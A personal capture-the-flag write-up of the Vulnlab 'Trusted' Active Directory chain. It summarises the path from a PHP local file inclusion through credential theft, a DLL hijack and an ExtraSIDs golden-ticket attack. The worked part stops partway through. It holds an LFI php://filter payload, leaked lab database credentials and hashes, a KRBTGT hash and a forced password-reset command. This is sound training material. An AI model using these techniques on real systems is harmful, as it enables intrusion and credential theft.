| Chain Name | Difficulty | Date Started | Date Completed |
| ---------- | ---------- | ------------ | -------------- |
| Trusted    | Easy       | 20/12/2024   | 29/12/2024     |
*Vulnlab.com* 

---

**Learning Points:**
- Learned to read source code of pages using PHP filters when there is a Local File Inclusion vulnerability.
- Using `--ssl=0` when connecting to the MySQL service on an external server.
- When using BloodHound-python, using DNSChef with `--fakeip dcip` when the command didn't work.
- Changing a user's password using `net rpc password` from Kali.
- Using Impacket's `smbserver` to transfer files between Windows and Linux machines.
- Using ProcMon to analyze EXE files and DLLs for privilege escalation vectors.
- Performing an ExtraSIDs attack as described in [[9.2 Attacking Domain Trusts - Child -> Parent Trusts - from Windows]] note from HTB Academy.
- Changing user passwords using `net user` in PowerShell.
- Using RunasCs.exe to get a reverse shell as another user when we have credentials.

---

Attack Path:

1. Scanned both hosts with Nmap and identified that host B had a XAMPP instance running on port 80.
2. Performed a directory brute force using FFUF and discovered a `/dev` directory.
3. Found a Local File Inclusion vulnerability and used PHP filters to retrieve the source code of `index.html`, which contained a note.
4. Fuzzed for additional PHP files and found `db.php` containing database credentials.
5. Used the credentials to access the MySQL service on labdc and enumerated the `news` database.
6. Retrieved and cracked the hash of `rsmith` from the users table, confirming the credentials using CrackMapExec.
7. Leveraged BloodHound to determine that `rsmith` could force-change the password of `ewalters`, who had access via Evil-WinRM.
8. Exploited Evil-WinRM to transfer the `KasperskyRemovalTool` using Impacket-SMBServer and analyzed it with ProcMon.exe.
9. Identified the missing `KasperskyRemovalToolENU.dll` and created a 32-bit Meterpreter payload with the same name.
10. Executed the payload to gain a shell as `cpowers`.
11. Verified via BloodHound that `cpowers` was a domain admin with DCSync rights.
12. Retrieved the `Trusted_User` flag from the Administrator's Desktop.
13. Conducted an ExtraSIDs attack to escalate privileges, gathering necessary data points and generating a golden ticket with Mimikatz.
14. Used the golden ticket to perform DCSync and dump hashes of the main domain.
15. Logged into the main DC (trusteddc) as Administrator, changed the password, and used RunasCs to spawn a system shell and read the root flag.

---

 Activity Log:
 
- Performed Nmap scans for both hosts in the background.
- Visited port 80 on both hosts and found that host B had a XAMPP instance running.
- Enumerated SMB shares for both hosts as anonymous but failed.
- Performed LDAP queries to get usernames but also failed.
- Reviewed the write-up hints and performed a directory brute force on labdc.
- Found a `/dev` directory through FFUF.
- Started enumerating a page and discovered a Local File Inclusion vulnerability.
- Used PHP filters to get the source code of `index.html` and found a note.
- Fuzzed for other PHP files and found `db.php`.
- Found database credentials inside `db.php`.
- Using the credentials, accessed the MySQL service on labdc and started enumerating.
- Retrieved 3 hashes from the users table of the `news` database.
- Cracked the hash of `rsmith` using CrackStation.
- Confirmed the user credentials were working by testing with CrackMapExec on labdc.
- Ran BloodHound-python with the domain controller as the name server and also tested with localhost + DNSChef, but both attempts failed.
- Started enumerating possible BloodHound paths.
- Discovered that the user `rsmith` can force-change the password of the user `ewalters`, who can use Evil-WinRM to connect to the labdc host based on the BloodHound graph.
- Encountered issues downloading the file using Evil-WinRM, so we used Impacket-SMBServer to transfer the `KasperskyRemovalTool` from the labdc to Falcon.
- Opened the file using a Windows VM and analyzed it with ProcMon.exe to monitor processes.
- Filtered out process names containing the word `KasperskyRemovalTool`.
- Filtered out the DLL files loaded by the application.
- Observed that it loaded `KasperskyRemovalToolENU.dll`, but this file was not present in the directory.
- Confirmed that this is a 32-bit application using the `file` command.
- Exploited this by generating a Meterpreter payload in DLL format, renamed it as `KasperskyRemovalToolENU.dll`, and transferred it to the LABDC.
- Executed the EXE and obtained a shell as `cpowers`.
- Used the BloodHound graph to verify that `cpowers` is a domain admin for `lab.trusted.vl` and has DCSync rights over the `lab.trusted.vl` domain.
- Retrieved the `Trusted_User` flag from the Administrator's Desktop.
- Performed an ExtraSIDs attack following [[9.2 Attacking Domain Trusts - Child -> Parent Trusts - from Windows]].
- Gathered the following data points:
  - The KRBTGT hash for the child domain: `7a03c565c68c6fac5f8913fab576ebd`
  - The SID for the child domain: `S-1-5-21-2241985869-2159962460-1278545866`
  - The name of a target user in the child domain: `Administrator`
  - The FQDN of the child domain: `lab.trusted.vl`
  - The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3576695518-347000760-3731839591-519`
- Generated a golden ticket using the collected information and Mimikatz.
- Performed DCSync and dumped the hashes of the main domain.
- Logged into the main DC (trusteddc) as Administrator and obtained the root flag.
- Encountered issues reading the root flag initially.
- Changed the Administrator password and used RunasCs to spawn a system shell and successfully read the root flag.

---

| Host   | Host Name | IP Address        | Status  |
| ------ | --------- | ----------------- | ------- |
| Host A | TrustedDC | 10.10.133.53      | Changed |
| Host B | LabDC     | 10.10.133.54 (+1) | Changed |

### Enumeration

*Host A Nmap default scan :*
```
# Nmap 7.94SVN scan initiated Sun Dec 22 21:13:36 2024 as: nmap -sC -sV -oA hostA 10.10.164.117
Nmap scan report for 10.10.164.117
Host is up (0.19s latency).
Not shown: 990 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-22 15:43:54Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: trusted.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=trusteddc.trusted.vl
| Not valid before: 2024-12-21T15:42:45
|_Not valid after:  2025-06-22T15:42:45
| rdp-ntlm-info: 
|   Target_Name: TRUSTED
|   NetBIOS_Domain_Name: TRUSTED
|   NetBIOS_Computer_Name: TRUSTEDDC
|   DNS_Domain_Name: trusted.vl
|   DNS_Computer_Name: trusteddc.trusted.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-12-22T15:46:16+00:00
|_ssl-date: 2024-12-22T15:46:32+00:00; -1s from scanner time.
Service Info: Host: TRUSTEDDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-12-22T15:46:20
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 22 21:16:36 2024 -- 1 IP address (1 host up) scanned in 180.13 seconds

```

*Host B Nmap default scan :*
```
# Nmap 7.94SVN scan initiated Sun Dec 22 21:13:46 2024 as: nmap -sC -sV -oA hostB 10.10.164.118
Nmap scan report for 10.10.164.118
Host is up (0.20s latency).
Not shown: 982 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
53/tcp   open     domain        Simple DNS Plus
80/tcp   open     http          Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/8.1.6)
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/8.1.6
| http-title: Welcome to XAMPP
|_Requested resource was http://10.10.164.118/dashboard/
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-22 15:44:11Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: trusted.vl0., Site: Default-First-Site-Name)
443/tcp  open     ssl/http      Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/8.1.6)
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| http-title: Welcome to XAMPP
|_Requested resource was https://10.10.164.118/dashboard/
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/8.1.6
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
668/tcp  filtered mecomm
1110/tcp filtered nfsd-status
1309/tcp filtered jtag-server
1914/tcp filtered elm-momentum
2920/tcp filtered roboeda
3306/tcp open     mysql         MySQL 5.5.5-10.4.24-MariaDB
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.24-MariaDB
|   Thread ID: 12
|   Capabilities flags: 63486
|   Some Capabilities: DontAllowDatabaseTableColumn, Support41Auth, SupportsLoadDataLocal, FoundRows, Speaks41ProtocolOld, InteractiveClient, SupportsTransactions, IgnoreSigpipes, LongColumnFlag, ODBCClient, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, ConnectWithDatabase, SupportsCompression, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: LM!Y{#7,s$T\OYO`uM`x
|_  Auth Plugin Name: mysql_native_password
3389/tcp open     ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=labdc.lab.trusted.vl
| Not valid before: 2024-12-21T15:42:47
|_Not valid after:  2025-06-22T15:42:47
| rdp-ntlm-info: 
|   Target_Name: LAB
|   NetBIOS_Domain_Name: LAB
|   NetBIOS_Computer_Name: LABDC
|   DNS_Domain_Name: lab.trusted.vl
|   DNS_Computer_Name: labdc.lab.trusted.vl
|   DNS_Tree_Name: trusted.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-12-22T15:44:24+00:00
|_ssl-date: 2024-12-22T15:44:34+00:00; -1s from scanner time.
Service Info: Host: LABDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-12-22T15:44:24
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 22 21:14:39 2024 -- 1 IP address (1 host up) scanned in 53.52 seconds

```

We visited port 80 on both hosts and found that host B was running a XAMPP instance.



*phpinfo.php file :*


We enumerated SMB shares for both hosts as anonymous users but failed.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ smbclient -L //10.10.164.117
Password for [WORKGROUP\destiny]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.164.117 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ smbclient -L //10.10.164.118
Password for [WORKGROUP\destiny]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.164.118 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

We performed LDAP queries to retrieve usernames but also failed.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ ldapsearch -x -H ldap://10.10.164.117 -D '' -w '' -b "DC=trusted,DC=vl"                                                                                
# extended LDIF
#
# LDAPv3
# base <DC=trusted,DC=vl> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5A, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4f7c

# numResponses: 1

┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ ldapsearch -x -H ldap://10.10.164.118 -D '' -w '' -b "DC=trusted,DC=vl" 
# extended LDIF
#
# LDAPv3
# base <DC=trusted,DC=vl> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5A, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4f7c

# numResponses: 1
```

We ran a directory brute force on labdc, which was running the XAMPP instance.



We found a `/dev` directory.



While switching pages, we noticed that the `view` parameter was being used. Inserting some invalid characters resulted in the following error:



We tried reading the Windows hosts file using an LFI payload and were successful.



Tried reading the source code of the page using a PHP filter.

```
http://10.10.164.118/dev/index.html?view=php://filter/convert.base64-encode/resource=C:\xampp\htdocs\dev\index.html
```



After decoding the base64 string, we got the source code of index.html. While reading it, we found a note.



```
Eric please take a look at this if you have the time. I tried to implement some php code and set up the database connection but it doesn't seem to work. Could you fix it please?
```

Since there is a DB connection included, we fuzzed for PHP files in the directory.



We got the source code of `db.php` using the same method as above and found the DB credentials.

```
<?php 
$servername = "localhost";
$username = "root";
$password = "SuperSecureMySQLPassw0rd1337.";

$conn = mysqli_connect($servername, $username, $password);

if (!$conn) {
  die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
?>
```

Using the credentials, we accessed the MySQL service on labdc.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Trusted]
└─$ mysql -h 10.10.164.118 -u root -p --ssl=0

Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 25
Server version: 10.4.24-MariaDB mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

Started enumerating the databases.

```
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| news               |
| performance_schema |
| phpmyadmin         |
| test               |
+--------------------+
6 rows in set (0.376 sec)
```



```
Robert     | rsmith       | Smith     | 7e7abb54bbef42f0fbfa3007b368def7
Eric       | ewalters     | Walters   | d6e81aeb4df9325b502a02f11043e0ad
Christine  | cpowers      | Powers    | e3d3eb0f46fe5d75eed8d11d54045a60
```

We used CrackStation and were able to crack the `rsmith` user's hash.



Using CrackMapExec, we confirmed the credentials of the user `rsmith` on labdc.



---

#### Bloodhound Enumeration

Ran BloodHound-python with the domain controller as the nameserver, and also the localhost with DNSChef, but both failed.



This can be fixed by using `dnschef` to proxy all the records back to the domain controller.

```
dnschef --fakeip 10.10.242.86
```

```
root@falcon:~/Vulnlab-Falcon/Chains/Trusted# bloodhound-python -d 'LAB.TRUSTED.VL' -u 'rsmith' -p 'IHateEric2' -ns 127.0.0.1 -dc labdc.LAB.TRUSTED.VL -c all
WARNING: Could not find a global catalog server, assuming the primary DC has this role
If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
INFO: Getting TGT for user
INFO: Connecting to LDAP server: labdc.LAB.TRUSTED.VL
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: labdc.LAB.TRUSTED.VL
ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
INFO: Found 7 users
ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
INFO: Found 47 groups
INFO: Found 2 gpos
INFO: Found 5 ous
INFO: Found 19 containers
ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: labdc.lab.trusted.vl
INFO: Done in 00M 33S
```

#### Enumerating possible paths from the bloodhound graph

We found out that the user `rsmith` can force a password change for the user `ewalters`, who can then use Evil-WinRM to connect to the labdc host, as shown in the BloodHound graph.


*The user RSMITH@LAB.TRUSTED.VL has the capability to change the user EWALTERS@LAB.TRUSTED.VL's password without knowing that user's current password.*


```
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

```
┌──(destiny㉿falcon)-[~/Documents]
└─$ net rpc password "ewalters" "newP@ssword2022" -U "lab.trusted.vl"/"rsmith"%"IHateEric2" -S "lab.trusted.vl" 
```

We were able to log in using Evil-WinRM to `lab.trusted.vl` after changing the user's password, but couldn't find a valid flag.



We had a limited PowerShell session, so we couldn't upload or download any files directly using Evil-WinRM.



We started enumerating the machine using the PowerShell session we had.

Found an interesting note:

